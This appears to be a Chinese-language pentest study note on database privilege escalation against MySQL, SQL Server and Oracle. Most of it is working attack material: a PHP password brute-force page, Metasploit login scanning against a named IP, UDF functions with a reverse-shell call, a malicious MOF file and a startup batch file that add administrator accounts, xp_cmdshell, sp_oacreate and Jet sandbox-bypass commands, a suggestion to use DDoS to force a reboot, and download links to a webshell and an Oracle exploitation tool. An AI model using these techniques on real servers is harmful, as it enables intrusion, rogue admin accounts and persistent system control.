

# 思维导图

## 权限提升


## 数据库提权

​	在利用系统溢出漏洞无果的情况下，可以采用数据库进行提权，但需要知道数据库提权的前提条件：服务器开启数据库服务及获取到最高权限用户密码。除 Access 数据库外，其他数据库基本都存在数据库提权的可能。

- 数据库应用提权在权限提升中的意义
- WEB 或本地环境如何探针数据库应用
- 数据库提权权限用户密码收集等方法
- 目前数据库提权对应的技术及方法等


# 知识点

## 提权流程

服务探针---->信息收集----->提权利用----->获取权限

## 数据库端口号

### 关系型数据库

#### Oracle

 port：端口号，默认是1521

#### SQL Server

 port：端口号，默认是1433

#### MySQL

 port：端口号，默认是3306

#### pointbase

 port：端口号，默认是9092

#### DB2

 port：端口号，默认是50000

#### Sybase

 port：端口号，默认是5000

#### PostgreSQL

 port：端口号，默认是5432

### 非关系型的数据库

#### MongoDB

 port：默认端口号，27017

#### Redis

 port：默认端口号，6379

#### memcached

 port：默认端口号，11211


# 演示案例：

## Mysql 数据库提权演示-脚本&MSF

服务器开启了3306 端口，但是不允许root外链的情况，我们可以在shell里面执行如下的语句来开启root用户的外连，方便我们提权。

```mysql
GRANT ALL PRIVILEGES ON *.* TO 'root'@'%' IDENTIFIED BY '密码' WITH GRANT OPTION;
GRANT ALL PRIVILEGES ON *.* TO 'root'@'%' IDENTIFIED BY 'root' WITH GRANT OPTION;
```

#### 查看网站配置文件

```mysql
sql data inc config conn database common include等
```

- **config.php**


- **conn.info.php**


- **config.ini.php**


等等一些配置文件

#### 查看数据库存储文件

mysql数据库存储数据文件以myd为后缀文件名

比如xxx.myd

查询 

```mysql
select  @@basedir as basePath from  dual 
```


​	   


#### 爆破猜解

##### 服务器本地爆破

**Completion.php**

用法：保存为Completion.php文件，将密码字典放置同目录下为pwd.txt文件，浏览器打开就可使用。

```php+HTML
<html>
 <head>
  <title>Mysql账号密码在线爆破工具</title>
  <meta http-equiv="Content-Type" content="text/html; charset=utf-8">
 </head>
 <body>
  <center>
   <br><br>
   <h1>Mysql账号密码在线爆破工具 V2.0</h1>
  <br>
<?php
 if(@$_POST['submit']){
   $host = @$_POST['host'];
   if($host!==""){
    $username = "root";//用户名字典
	$password = array();
	$filename = "pwd.txt"; //同目录下密码字典
	$i=0;
	$file = fopen($filename,'r');
	while(! feof($file)){
		$password[$i] = fgets($file);
		$i++;
	}


	fclose($file);
    echo "<hr><br>-----------------------爆破状态-----------------------<br>";
    for ($l=0; $l <= count($password); $l++) {
		$password1 = trim($password[$l]);	//除去左右空白
		if(@mysql_connect($host, $username, $password1)){
			echo "<script>alert('数据库密码为：{$password1}')</script>";
			echo "<br><br><font color='red'>爆破成功--密码-->".@$password1."</font>";
			break;
		}else{
			continue;
		}
    }
    echo "<br>----------------------爆破结束-----------------------<br><hr>";
   }else{
    echo "<script>alert('黑客，输入数据库IP地址')</script>";
   }
 }
?>
<br><br><br><br>
  <form action="Completion.php" method="post">
   数据库IP地址:<input type="text" name="host"/>
   <input type="submit" value="爆破" name="submit"/>
  </form>
<center>
</body>
 </html>

```


##### 远程暴力猜解

```shell
msfconsole
search mysql
use auxiliary/scanner/mysql/mysql_login
show options
set rhost 47.99.71.28
set username root
set pass_file /opt/mysql_pwd.txt
show options
exploit
```


## MYSQL

### UDF 提权

- （**基于 MYSQL 调用命令执行函数）**

- 读取网站数据库配置文件（了解其命名规则及查找技巧）

  - ```shell
    sql data inc config conn database common include 等
    ```

- 读取数据库存储或备份文件（了解其数据库存储格式及对应内容）  

  - @@basedir/data/数据库名/表名.myd

- 利用脚本暴力猜解（了解数据库是否支持外联及如何开启外联）

- 远程本地暴力猜解(支持外联)

- 服务器本地暴力猜解（不支持外联）

  - 上传爆破脚本到服务器进行服务器本地爆破。

- 利用自定义执行函数导出 dll 文件进行命令执行

  - select version() select @@basedir


- 手工创建 plugin 目录或利用 NTFS 流创建
  - select 'x' into dumpfile '目录/lib/plugin::INDEX_ALLOCATION';
  - 1.mysql<5.1 导出目录 c:/windows 或 system32
  - 2.mysql=>5.1 导出安装目录/lib/plugin/

#### 权限提升

- 手工创建 plugin 目录或利用 NTFS 流创建
  - select 'x' into dumpfile '目录/lib/plugin::INDEX_ALLOCATION';
  - 1.mysql<5.1 导出目录 c:/windows 或 system32
  - 2.mysql=>5.1 导出安装目录/lib/plugin/

```shell
功能说明:
MYSQL=>5.1
自动获取高版本mysq|调用函数路径(测试mysq|5.5)
MYSQL < =5.0默认为系统目录
自定义导出dll
默认udf自带函数
cmdshell执行cmd;
downloader下载者,到网上下载指定文件并保存到指定目录
open3389通用开3389终端服务,可指定端口(不改端C ]无需重启);
backshell反弹Shell;
ProcessView枚举系统进程;
KillProcess终止指定进程;
regread读注册表;
regwrite写注册表;
shut关机,注销，重启;
about说明与帮助函数;
默认添加管理员账号密码123456
默认反弹端口12345
不要随便删除刚创建的函数重新生效要mysq|重启
别人的udf请自行看别人的udf说明
常用命令
create function cmdshell returns string soname 'moonudf.dll‘
select cmdshell('命令")
select backshell("你的ip',12345)
nc -|-p 12345
```


##### 手工创建目录

自己动手

##### 导入文件


成功导出dll文件后、先创建sys_eval，之后可以查看当前用户等操作，提权成功

##### 提权1

创建syseval


查看用户


如果是安装的mysql服务，那么此时查看权限是system权限，而我测试用的是 phpstudy的mysql是，所以是administrator权限，也就是 phpstudy运行的权限

##### 提取2

除了专门的mysql.php  udf提权php脚本外，php大马也有udf提权功能，同样得输入dll文件的安装路径才可以

```shell
请先导出DLL,再执行命令.MYSQL用户必须为root权限,导出路径必须能加载DLL文件.
E:/phpstudy/PHPTutorial/MySQL/lib/plugin/mysqlDll.dll
```


[windows使用nc命令]([windows使用nc命令 - 林宇风 - 博客园 (cnblogs.com)](https://www.cnblogs.com/linyufeng/p/13206252.html))

### MOF提权

- **（基于 MYSQL 特性的安全问题）**

mof是windows系统的一个文件(在c:/windows/system32/wbem/mof/nullevt.mof)叫做"托管对象格式"，其作用是每隔五秒就会去监控进程创建和死亡。其就是用又了mysql的root权限了以后，然后使用root权限去执行我们上传的mof。隔了一定时间以后这个mof就会被执行，这个mof当中有一段是vbs脚本，这个vbs大多数的是cmd的添加管理员用户的命令。

- 导出自定义 mof 文件到系统目录加载
- 同udf一样需要手工修改my.ini配置文件，添加 secure-file-priv=

**参考文章**

- [https://www.cnblogs.com/xishaonian/p/6384535.html](https://www.cnblogs.com/xishaonian/p/6384535.html)

```shell
select load_file('C:/phpStudy/PHPTutorial/WWW/user_add.mof
') into dumpfile 'c:/windows/system32/wbem/mof/nullevt.mof';
```

##### **上传mof文件**

通过webshell将adduser.mof文件上传到网站根目录

mof文件内容

```shell
#pragma namespace("\\\\.\\root\\subscription") 

instance of __EventFilter as $EventFilter 
{ 
    EventNamespace = "Root\\Cimv2"; 
    Name  = "filtP2"; 
    Query = "Select * From __InstanceModificationEvent " 
            "Where TargetInstance Isa \"Win32_LocalTime\" " 
            "And TargetInstance.Second = 5"; 
    QueryLanguage = "WQL"; 
}; 

instance of ActiveScriptEventConsumer as $Consumer 
{ 
    Name = "consPCSV2"; 
    ScriptingEngine = "JScript"; 
    ScriptText = 
    "var WSH = new ActiveXObject(\"WScript.Shell\")\nWSH.run(\"net.exe user admin admin123!@# /add\")"; 
}; 

instance of __FilterToConsumerBinding 
{ 
    Consumer   = $Consumer; 
    Filter = $EventFilter; 
};

```


##### 提权

使用sql语句将系统当中默认的nullevt.mof给替换掉，让系统执行我们这个恶意的mof文件，来添加admin账户。

```mysql
select load_file(‘E:/phpStudy/PHPTutorial/WWW/74/X/adduser.mof’) into dumpfile ‘c:/windows/system32/wbem/mof/nullevt.mof’;
```


过一会儿后，查看目标服务器用户，发现admin账户被创建

### 启动项提权

- **（基于配合操作系统自启动）**
- 导出自定义可执行文件到启动目录配合重启执行
- 将创建好的后门或执行文件进行服务器启动项写入，配合重启执行！

##### 上传bat文件

将创建好的bat文件进行服务器启动项写入，配合重启执行！
bat文件

```
@echo
net user xxx 123!@#ws /add
```


##### **提权**

通过sql命令写入到启动项中

```mysql
select load_file(‘C:/phpStudy/PHPTutorial/WWW/74/x/xxx.bat’) into dumpfile ‘C:/Documents and Settings/Administrator/「开始」菜单/程序/启动/xxx.bat’;
```

然后让目标服务器重启后，bat文件执行

```shell
重启的服务器的操作：
-- DDOS攻击将服务器的流量打光，服务器就会重启 
```

### 反弹shell提权

- **（基于利用反弹特性命令执行）**

- nc -l -p 5577

- nc相关知识：[https://www.cnblogs.com/-chenxs/p/11748488.html](https://www.cnblogs.com/-chenxs/p/11748488.html)

  ##### 创建反弹函数


##### 反弹shell


##### 监听


## Mssql 数据库提权演示-连接客户端

 

## MSSQL  

**通过查看服务器配置文件得到sa账户密码为admin**


##### 进入SQLserver的管理器

由于mssql默认支持外联，因为可以本地通过SqlServer2008客户端使用sa账户密码连接。Navicat也能连接，但是推荐用官方的。


##### xp_cmdshell 提权

#### 使用条件

- xp_cmdshell 默认在 mssql2000 中是开启的，在 mssql2005 之后的版本中则默认禁止。

如果用户拥有管理员 sa 权限则可以用 sp_configure 重修开启它。


##### 启用

```mssql
EXEC sp_configure 'show advanced options', 1
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```


##### 关闭

```mssql
exec sp_configure 'show advanced options', 1;
reconfigure;
exec sp_configure 'xp_cmdshell', 0;
reconfigure;
```


##### 执行

```mssql
EXEC master.dbo.xp_cmdshell '命令'
EXEC master.dbo.xp_cmdshell ipconfig
```

启用就可以查询


##### 恢复

如果 xp_cmdshell 被删除了，可以上传 xplog70.dll 进行恢复

```mssql
exec master.sys.sp_addextendedproc 'xp_cmdshell', 'C:\Program Files\Microsoft SQL
Server\MSSQL\Binn\xplog70.dll'
```


### sp_oacreate 提权

主要是用来调用 OLE 对象，利用 OLE 对象的 run 方法执行系统命令。

关闭状态


#### 启用

```mssql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE WITH OVERRIDE;
EXEC sp_configure 'Ole Automation Procedures', 1;
RECONFIGURE WITH OVERRIDE;
```


#### 关闭

```mssql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE WITH OVERRIDE;
EXEC sp_configure 'Ole Automation Procedures', 0;
RECONFIGURE WITH OVERRIDE;
```

#### 执行

```mssql
declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod
@shell,'run',null,'c:\windows\system32\cmd.exe /c whoami >c:\\1.txt'
回显可能显示不出来，把结果保存到1.txt中，便于查看结果！
```





### SQL Server 沙盒提权

参考资料：[https://blog.51cto.com/11797152/2411770](https://blog.51cto.com/11797152/2411770)

--提权语句

```mssql
exec sp_configure 'show advanced options',1;reconfigure;
```


-- 不开启的话在执行 xp_regwrite 会提示让我们开启，

```mssql
exec sp_configure 'Ad Hoc Distributed Queries',1;reconfigure;
```


--关闭沙盒模式，如果一次执行全部代码有问题，先执行上面两句代码。

```mssql
exec master..xp_regwrite
'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Jet\4.0\Engines','SandBoxMode','REG_DWORD',0;
```

--查询是否正常关闭，经过测试发现沙盒模式无论是开，还是关，都不会影响我们执行下面的语句。

```mssql
exec master.dbo.xp_regread 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Jet\4.0\Engines',
'SandBoxMode'
```


执行系统命令之前


-- 执 行 系 统 命 令

```mssql
select * from
openrowset('microsoft.jet.oledb.4.0',';database=c:/windows/system32/ias/ias.mdb','select shell("net user margin margin /add")')

```


执行系统命令之后


其他操作语句

```mssql
select * from
openrowset('microsoft.jet.oledb.4.0',';database=c:/windows/system32/ias/ias.mdb','select shell("net user margin margin /del")')

select * from
openrowset('microsoft.jet.oledb.4.0',';database=c:/windows/system32/ias/ias.mdb','select shell("net localgroup administrators margin /add")')
```


沙盒模式SandBoxMode参数含义（默认是2）

```mssql
`0`：在任何所有者中禁止启用安全模式
`1`：为仅在允许范围内
`2`：必须在access模式下
`3`：完全开启
```

openrowset是可以通过OLE DB访问SQL Server数据库，OLE  DB是应用程序链接到SQL Server的的驱动程序。

```mssql
--
恢复配置（暂不执行）
--
exec master..xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Jet\4.0\Engines','SandBoxMode','REG_DWORD',1;
--
exec sp_configure 'Ad Hoc Distributed Queries',0;reconfigure;
--
exec sp_configure 'show advanced options',0;reconfigure;
```


## Oracle数据库提权演示-自动化工具

- jsap /java
- jsp网站后门不需要提权，自带system

### 普通用户模式

前提是拥有一个普通的oracle连接账号，不需要DBA权限，并以oracle实例运行的权限执行操作系统命令

### DBA用户模式

-  自动化工具演示

拥有DBA账号密码，可以省去自己手动创建存储过程的繁琐步骤，一键执行测试

### 注入提升模式

- sq|map测试演示

拥有一个oracle注入点，可以通过注入点直接执行系统命令，此种模式没有实现回显，需要自己验证

##### **查看账户密码**


##### 注入点


##### 判断模式为DBA


##### 使用工具


##### 命令执行


##### 文件管理


##### 反弹shell


# 相关资源

[视频演示的大马](https://pan.baidu.com/s/10aLBqlWJknBvVGqdH58gkA?pwd=plb8 )

链接：https://pan.baidu.com/s/10aLBqlWJknBvVGqdH58gkA?pwd=plb8 
提取码：plb8

[oracle提权执行命令工具oracleShell v0.1](https://pan.baidu.com/s/11yy6aCdCJaY-7CAjrG4t7w?pwd=z679 )

链接：https://pan.baidu.com/s/11yy6aCdCJaY-7CAjrG4t7w?pwd=z679 
提取码：z679
